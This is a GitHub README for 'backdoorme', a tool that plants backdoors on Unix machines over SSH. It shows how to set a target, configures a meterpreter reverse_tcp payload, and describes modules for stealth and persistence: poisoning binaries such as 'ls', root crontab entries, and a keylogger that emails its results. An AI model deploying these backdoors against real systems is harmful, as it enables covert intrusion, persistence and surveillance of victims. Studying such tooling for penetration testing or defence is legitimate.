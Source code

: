# backdoorme [![Build Status](https://travis-ci.org/Kkevsterrr/backdoorme.png)](https://travis-ci.org/Kkevsterrr/backdoorme)

 Backdoorme is a powerful utility capable of backdooring Unix machines with a slew of backdoors.  Backdoorme uses a familiar metasploit interface with tremendous extensibility. 
 
 Backdoorme relies on having an existing SSH connection or credentials to the victim, through which it will transfer and deploy any backdoors.  In the future, this reliance will be removed as the tool is expanded. 
 To set up SSH, please see here: https://help.ubuntu.com/community/SSH/OpenSSH/Configuring
 
 Please only use Backdoorme with explicit permission - please don't hack without asking.  
## Usage
Backdoorme comes with a number of built-in backdoors and modules.  Backdoors are specific components to create and deploy a specific backdoor, such as a netcat backdoor or msfvenom backdoor.  Modules can be applied to any backdoor, and are used to make backdoors more potent, stealthy, or more readily tripped. 

To start backdoorme, first ensure that you have the required dependencies. 
```python
$ python dependencies.py
```
Launching backdoorme:
```
$ python master.py
   ___           __      __              __  ___
  / _ )___ _____/ /_____/ /__  ___  ____/  |/  /__
 / _  / _ `/ __/  '_/ _  / _ \/ _ \/ __/ /|_/ / -_)
/____/\_,_/\__/_/\_\\_,_/\___/\___/_/ /_/  /_/\__/
Welcome to BackdoorMe, a powerful backdooring utility. Type "help" to see the list of available commands.
Type "addtarget" to set a target, and "open" to open an SSH connection to that target.
Using local IP of 10.1.0.1.
>>
```
To add a target:
``` 
>> addtarget
Target Hostname: 10.1.0.2
Username: victim
Password: password123
 + Target 1 Set!
>>
```
### Backdoors

To use a backdoor, simply run the "use" keyword. 
``` 
>> use metasploit
 + Using current target 1.
 + Using Metasploit backdoor...
(msf) >>
```
From there, you can set options pertinent to the backdoor.  Run either "show options" or "help" to see a list of parameters that can be configured.  To set an option, simply use the "set" keyword. 
```
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		initd		name of the backdoor		False
format		elf		format to write the backdoor to		True
lhost		10.1.0.1		local IP to connect back to		True
encoder		none		encoder to use for the backdoor		False
lport		4444		local port to connect back on		True
payload		linux/x86/meterpreter/reverse_tcp		payload to deploy in backdoor		True
(msf) >> set name apache
 + name => apache
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		apache		name of the backdoor		False
...
```
Currently enabled backdoors include:
 
 - Bash
 - Metasploit
 - Netcat
 - Netcat-traditional
 - Perl
 - Pupy
 - Python
 - Web (php)
 
### Modules
Every backdoor has the ability to have additional modules applied to it to make the backdoor more potent. To add a module, simply use the "add" keyword. 
```
(msf) >> add poison
 + Poison module added
```
Each module has additional parameters that can be customized, and if "help" is rerun, you can see or set any additional options. 
```
(msf) >> help
...
Poison module options:

Option		Value		Description		Required
------		-----		-----------		--------
name	    ls		  name of command to poison		False
location /bin		where to put poisoned files into		False
```
Currently enabled modules include:
 - Poison
  - Performs bin poisoning on the target computer - it compiles an executable to call a system utility and an existing backdoor.
  - For example, if the bin poisoning module is triggered with "ls", it would would compile and move a binary called "ls" that would run both an existing backdoor and the original "ls", thereby tripping a user to run an existing backdoor more frequently. 
 - Cron
  - Adds an existing backdoor to the root user's crontab to run with a given frequency.  
 - Web
  - Sets up a web server and places a web page which triggers the backdoor.
  - Simply visit the site with your listener open and the backdoor will begin.
 - Keylogger
  - Ships a keylogger to the target and starts it.
  - Given the option to email the results to you every hour.
 
### Targets
Backdoorme supports multiple different targets concurrently, organized by number when entered. The core maintains one "current" target, to which any new backdoors will default. To switch targets manually, simply add the target number after the command: "use metasploit 2" will prepare the metasploit backdoor against the second target.

## Contributing
Backdoorme is still very much in its infancy! Feel free to contribute to the project - simply fork it, make your changes, and issue a pull request. 
